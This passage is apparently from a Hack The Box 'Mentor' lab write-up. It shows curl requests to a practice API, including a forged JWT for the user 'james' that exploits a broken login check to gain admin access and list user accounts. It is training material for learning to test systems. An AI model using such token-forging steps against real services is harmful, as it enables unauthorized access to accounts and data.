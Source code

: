 ![picture 2](/assets/images/3fb49ff0b333d871f602c3b1c1635fe70c4e1ab80e125a1df721e8254a767741.png)

We even find an Email Address which we should note `james@mentorquotes.htb`

## Digging deeper on api.mentorquotes.htb
We can signup a user and login. Authorization key will return.
We cannot display any user

´´´
┌──(luka㉿yokai)-[~/htb/boxes/mentor]
└─$ curl -X 'GET'   'http://api.mentorquotes.htb/users/'   -H 'accept: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3R0ZXN0IiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.qUR8VFEsFPQaYLsCmcdb0dMwuxbULuCOsdOG1ncoWJ4' -s | jq .
{
  "detail": "Only admin users can access this resource"
}
´´´

We can display quotes using same `Authorization` header and `quotes` endpoint. They are the same as on the `mentorquotes.htb` BUT we cannot add new quotes as we get same error as above.

If we use `james` as a user and different email, there is some **broken login**, which gives us admin privileges
```
┌──(luka㉿yokai)-[~/htb]
└─$ curl http://api.mentorquotes.htb/users/ -H 'accept: application/json' -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJ0ZXN0QG1lbnRvcnF1b3Rlcy5odGIifQ.yhdN6mhlvDCzb7QDbE_s31QqqnGPoWug_txMrXUi5sM' -s | jq .
[
  {
    "id": 1,
    "email": "james@mentorquotes.htb",
    "username": "james"
  },
  {
    "id": 2,
    "email": "svc@mentorquotes.htb",
    "username": "service_acc"
  },
```